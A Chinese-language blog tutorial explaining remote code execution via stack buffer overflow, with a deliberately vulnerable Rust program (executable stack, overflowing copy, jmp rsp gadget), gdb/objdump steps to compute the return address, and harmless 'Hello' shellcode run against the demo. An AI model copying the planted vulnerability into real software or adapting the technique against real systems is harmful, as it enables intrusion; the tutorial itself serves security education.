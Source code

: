 RCE, DoS
========

> 這次的程式碼在 https://github.com/DanSnow/ironman-2019/tree/master/buffer-overflow

這篇的內容其實有點偏離主題了，不過因為也挺有趣的，所以再加上上一篇，我寫了兩篇來介紹，事實上這篇的內容還有本書叫「緩衝區溢位攻擊與防範」來討論這些內容，不知道各位有沒有聽過「[遠端程式執行漏洞 (Remote Code Executation, RCE)][rce-wiki]」，簡單來說就是讓你可以透過某些方法使得你可以在另一台機器，或是另一個執行緒中執行任意的程式碼，那跟上一篇提到的 stack overflow 又有什麼關係呢？

[rce-wiki]: https://en.wikipedia.org/wiki/Arbitrary_code_execution

RCE
---

首先先讓我們來認識一下 RCE ，只要能在其它的處理緒中執行任意的程式碼都叫做 RCE ，如果你有看過類似的漏洞的報導的話，你可能會注意到現在大部份這類型的漏洞是由反序列化 (deserialize) 所引起的，但在以前由 buffer overflow 引起的可是不少喔

> 說到 RCE 我想到之前一個讓我印像挺深的 mysql 漏洞 [CVE-2016-6662][mysql-cve] ，這個漏洞的起因是可以用指令開啟 log 的功能與設定 log 輸出的位置，但這個位置也可以是 mysql 的設定檔，於是就可以寫入讓 mysql 載入其它 so 檔的設定

[mysql-cve]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6662

所以為什麼 buffer overflow 會引起 RCE ，這部份我們跟 DoS 一起講吧，首先 DoS 的中文是阻斷服務攻擊 (Denial of Service) ，意思是讓別人的服務停止運作，另外還有個名詞叫 DDoS 分散式阻斷服務攻擊，這一般是指用大量的流量讓別人的服務沒辦法正常運作，但這需要設法產生大量的流量才有辦法達到，如果說我僅僅是發送個特殊的資料過去對方的服務就能造成他的服務當機會發生什麼事，假如他們的服務正好有 buffer overflow 的問題，而你也能產生能造成這個問題的資料的話，還記得在前一篇中的 stack overflow 中，我們的程式直接執行到未預期的地方而當了嗎？

所謂的 buffer overflow 是程式用來暫存資料的空間寫入超過其大小的位置，這在 C 語言中其實還挺容易發生的，在 C 語言中像 `strcpy` 、 `strcat` 這類處理字串的 API 都沒有限制長度的參數，它們都是相信存在字串中結尾的 `\0` 當作中斷點，而不會去注意到存放字串的指標指向的空間是不是真的足夠，那如果這個 buffer 又是放在堆疊上的，那不就有機會引發 stack overflow 了嗎，只要讓對方的服務執行到異常的位置，那他的服務可能就會就此停止運作了

那 stack overflow 又要怎麼造成 RCE ，當能覆寫返回位置時，如果返回位置指向的是可以正常執行的指令會發生什麼事，程式會繼續執行下去，比如你知道對方的程式裡有某個位置執行的程式是清空硬碟的話，就把這個位置寫進去它的程式就會跳過去執行了，但這樣還是沒有達到執行任意程式的功能，說來以前的 CPU 可沒有指定哪段記憶體禁止執行程式的功能喔，如果我們寫入一個特殊的記憶體位置接下來則是想要執行的指令，只要那個記憶體位置執行的指令是跳到堆疊的位置去執行指令的話不就能執行剩下來放在堆疊上的指令了嗎？

我們來嘗試看看吧，先來準備基本的程式：

```rust
use std::{
  io::{self, Read},
  ptr,
};

extern "C" {
  pub fn jump_stack() -> !;
}

// 這個函式不該被執行到
fn use_jump_stack() {
  println!("This should not print");
  unsafe {
    jump_stack();
  }
}

fn buffer_overflow(b: &[u8]) {
  let mut buf = [0u8; 0];
  unsafe {
    // 這邊把讀進來的資料硬寫進一個長度為 0 的陣列，造成 stack overflow
    ptr::copy(b.as_ptr(), buf.as_mut_ptr(), b.len());
  }
}

fn main() {
  let mut buf = Vec::new();
  unsafe {
    // 設定 stack 為可執行的
    // 這用來解除防止 stack overflow 造成 RCE 的其中一個保護機制
    libc::mprotect(
        (&mut buf as *mut _ as usize & (-libc::sysconf(libc::_SC_PAGE_SIZE) as usize))
            as *mut libc::c_void,
        4096,
        libc::PROT_READ | libc::PROT_WRITE | libc::PROT_EXEC,
    );
  }
  // 從標準輸入讀進資料，模擬由外部讀入的資料造成 RCE
  io::stdin().read_to_end(&mut buf).unwrap();
  buffer_overflow(&buf);
  // 使用一下 jump_stack ，不然不會被連結進來
  use_jump_stack();
}
```

其中 `jump_stack` 是一段用組語寫成的程式，它只有一個用途，就是跳到 stack 上執行：

```asm
.intel_syntax noprefix
.global jump_stack
jump_stack:
  jmp rsp
```

一般來說應該要在程式本身或會用到的動態函式庫來找看看有沒有 `jmp rsp` 這個指令的，不過因為這邊是示範，所以我們就自己寫一個在程式裡了

接下來為了產生能夠造成 RCE 的輸入資料，我們需要知道兩個東西，第一個是 `jmp rsp` 這個指令的記憶體位置，第二個是會造成 overflow 的 buffer 在 stack 中的位置距離返回位置有多遠，為了示範的方便，我們直接用 `objdump` 與 `gdb` 來看答案吧

> 以下記憶體位置可能會因為系統與編譯器版本影響而有所不同，如果要自己做請務必自己重新找過位置

先用 objdump 找出 `jump_stack` 的偏移位置：

```shell
$ objdump -M intel -d <exe path>
...
00000000000065d5 <jump_stack>:
    65d5:	ff e4                	jmp    rsp
    65d7:	66 0f 1f 84 00 00 00 	nop    WORD PTR [rax+rax*1+0x0]
    65de:	00 00
...
```

因為輸出會很長，我會建議你用 `objdump -M intel -d <exe path> > <output file>` 這樣的方式輸出到檔案再慢慢找

這邊的 `65d5` 就是我們要的偏移位置，這個位置再加上程式碼載入到記憶體中的起始位置就是實際位置了

再來我們再用 `gdb` 來找與返回位置的距離與程式碼載入的起始位置，先準備一個輸入檔，檔案內容先隨意，我們先打開 gdb ：

```shell
$ gdb <執行檔位置>
>>> b buffer_overflow
>>> r < <輸入檔位置>
```

接著輸入 `b buffer_overflow` 與 `r < <輸入檔位置>`，程式將會執行起來並在 `buffer_overflow` 的函式暫停，這時開始輸入 `ni` 讓 gdb 單步執行，你並不需要每次都輸入 `ni` ，如果你直接按 Enter 的話 `gdb` 會自動重覆上一次的指令，所以只要一開始輸入就好，我們需要執行直到找到 `call ... <core::slice::<impl [T]>::as_mut_ptr>` 也就是呼叫 `as_mut_ptr` 的時候，那句組語的前一行大概會是像這樣的：

```plain
0x0000555555559e46  demo::buffer_overflow+38 lea    rdi,[rsp+0x37]
0x0000555555559e4b  demo::buffer_overflow+43 call   0x5555555594e0 <core::slice::<impl [T]>::as_mut_ptr>
```

這邊的 `lea` 指令是在把 `buf` 的位置存到 `rdi` 準備當 `as_mut_ptr` 的參數，可以看到它的位置是 `rsp + 0x37` 先繼續單步執行下去，找到像這樣的指令

```plain
0x0000555555559e7d  demo::buffer_overflow+93 add    rsp,0x38
```

這邊是在把使用到的堆疊空間還回去，所以它用了 `0x38` 的空間，對照上面的就可以知道 `buf` 的位置只差返回位置 1 個 byte 的空間而已，接著輸入 `info proc mappings`

```plain
>>> info proc mappings
process 28965
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
      0x555555554000     0x555555589000    0x35000        0x0 demo
 ...
```

這邊就可以看到程式開始的位置是 `0x555555554000`，事實上這就是 proc 下的 `maps` 的檔案內容，所以從那邊看也行，把開始位置加上之前的偏移得到的是 `0x55555555a5d5`，到這邊我們需要的資訊都有了，所以我們開頭要覆寫的內容就是 1 個 byte 的值，再加上我們要的返回位置，用 16 進位表示會是：

```plain
0x00 0xd5 0xa5 0x55 0x55 0x55 0x55 0x00 0x00
```

這個我們先把它存成叫 `header` 的檔案備用，你可能會想問為什麼位置反過來了，因為目前大多的電腦用的是 little endian ，這之後可以再來講，再來要準備我們想執行的程式碼，這邊要用組語寫：

```asm
.intel_syntax noprefix
jmp start # 因為我們把訊息跟程式混在一起，所以要跳過訊息，不然會被當成程式執行
msg: .ascii "Hello from shellcode\n"
start:
# 計算訊息的位置，是用程式目前執行的位置減去訊息的長度與指令本身的長度
lea rsi, [rip - 28]
mov rax, 1 # write
mov rdi, 1 # 標準輸出
mov rdx, 21 # 訊息長度
syscall
mov rax, 60 # exit
mov rdi, 0
syscall
```

計算訊息位置那邊如果有不是自己手算的更好的寫法歡迎留言告訴我，然後我們把這個檔案存成 `shellcode.s` 後它編譯成機器碼：

```shell
$ as -o shellcode.o shellcode.s # 組譯
$ objcopy -O binary shellcode.o shellcode # 取出機器碼的部份
$ cat header shellcode > input # 把檔案組合成 input
$
```

再來把 `gdb` 重開，我們用剛剛的輸入檔重跑一次看看，這次不用加中斷點了，直接輸入 `r < input` 來執行：

```plain
>>> r < input
Hello from shellcode
```

我們的訊息印出來啦，那如果不要在 `gdb` 中執行呢？你可以自己試試看，因為這篇有點太長了，我們下集待續
